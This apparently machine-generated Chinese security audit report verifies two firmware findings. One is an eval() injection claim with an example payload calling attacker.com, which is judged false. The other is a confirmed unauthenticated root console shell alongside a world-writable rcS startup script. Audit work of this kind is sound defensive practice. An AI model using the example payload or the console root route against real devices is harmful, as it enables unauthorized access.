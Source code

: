 #### 验证指标
- **验证耗时:** 425.21 秒
- **Token用量:** 604679

---

### 待验证的发现: network_input-publicjs-eval_rce

#### 原始信息
- **文件/目录路径:** `wa_www/public.js`
- **位置:** `public.js:88`
- **描述:** eval函数直接执行用户输入的'userExpression'（第88行）。攻击者通过提交恶意表单（如';fetch(attacker.com)'）可触发远程代码执行。输入来自calcInput字段，无任何消毒或沙箱隔离。
- **代码片段:**\n  ```\n  const userExpression = document.getElementById('calcInput').value;\n  const result = eval(userExpression);\n  ```
- **备注:** 需检查是否受CSP策略限制\n
#### 验证结论
- **描述准确性:** `unknown`
- **是否为真实漏洞:** `False`
- **是否可直接触发:** `False`
- **详细原因:** 未能在wa_www/public.js中找到描述中的eval(userExpression)代码片段（第88行）或'calcInput'字段。检查CSP策略的命令也返回空结果。缺乏证据支撑发现的三个核心要素：1) 危险函数调用 2) 用户输入来源 3) 安全限制措施。

#### 验证指标
- **验证耗时:** 434.76 秒
- **Token用量:** 703332

---

### 待验证的发现: configuration_load-inittab-sysinit_respawn

#### 原始信息
- **文件/目录路径:** `etc/inittab`
- **位置:** `etc/inittab:0 [global config]`
- **描述:** 在/etc/inittab中发现两个高风险的启动配置：1) 系统初始化时以root权限执行/etc/init.d/rcS脚本，该脚本可能包含多个服务的启动逻辑 2) 在控制台持续重启root权限的/bin/sh登录shell。触发条件为系统启动（sysinit）或控制台访问（respawn）。若rcS脚本存在漏洞或被篡改，可导致系统初始化阶段被控制；root shell若存在提权漏洞或访问控制缺失（如未认证的UART访问），攻击者可直接获取最高权限。
- **代码片段:**\n  ```\n  ::sysinit:/etc/init.d/rcS\n  ::respawn:-/bin/sh\n  ```
- **备注:** 关键后续方向：1) 分析/etc/init.d/rcS的调用链 2) 验证/bin/sh实现（如BusyBox版本）的已知漏洞 3) 检查控制台访问控制机制（如UART认证）\n
#### 验证结论
- **描述准确性:** `partially`
- **是否为真实漏洞:** `True`
- **是否可直接触发:** `True`
- **详细原因:** 验证结果：1) rcS篡改风险成立（目录全局可写）2) root shell控制台风险成立（无securetty限制+空密码）但发现描述中提权漏洞部分不准确（BusyBox无SUID位且无CVE）。实际漏洞为：物理访问者可通过控制台直接获取root权限（无需漏洞利用），或篡改rcS实现持久化控制。

#### 验证指标
- **验证耗时:** 1012.19 秒
- **Token用量:** 1331119

---
